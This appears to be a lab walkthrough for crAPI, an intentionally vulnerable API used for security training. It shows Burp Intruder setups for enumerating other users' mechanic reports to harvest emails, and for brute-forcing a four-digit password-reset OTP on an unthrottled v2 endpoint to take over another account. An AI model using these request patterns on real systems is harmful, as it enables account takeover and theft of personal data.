 Resp
```json
{"id":60,"mechanic":{"id":2,"mechanic_code":"TRAC_JME","user":{"email":"james@example.com","number":""}},"vehicle":{"id":78,"vin":"3GUFQ83RVSV653919","owner":{"email":"hack101@email.com","number":"2223345421314"}
```
<br>

### You can then send one of these requests to Intruder and get all users email addys to use to crack passwords/break authentication
```http
GET /workshop/api/mechanic/mechanic_report?report_id=42 HTTP/1.1
Host: crapi.apisec.ai
```
<br>

set position for the value of `report_id` 
```http
GET /workshop/api/mechanic/mechanic_report?report_id=§ § HTTP/1.1
Host: crapi.apisec.ai
```


Set the payloads

##  Broken User Authentication

### [  ] Challenge 3 - Reset the password of a different user

* Find an email address of another user on crAPI

* Experiment with password reset

* Discover that the pw reset times is limmited on the v3 api, but not v2
  ```http
  POST /identity/api/auth/v3/check-otp
  Host: crapi.apisec.ai
  ```
<br>
  
So do a pw reset OTP brute force to take over someone elses acct.
Send the req to Intruder, payload positions
```http
POST /identity/api/auth/v2/check-otp HTTP/1.1
Host: crapi.apisec.ai
...
{"email":"victimsemail@test.com","otp":"§0000§","password":"Passw0rd!"}

```

Then set the position as sniper, and the Payload sets as:
- Number
- From: 0000
- to: 9999
- step: 1
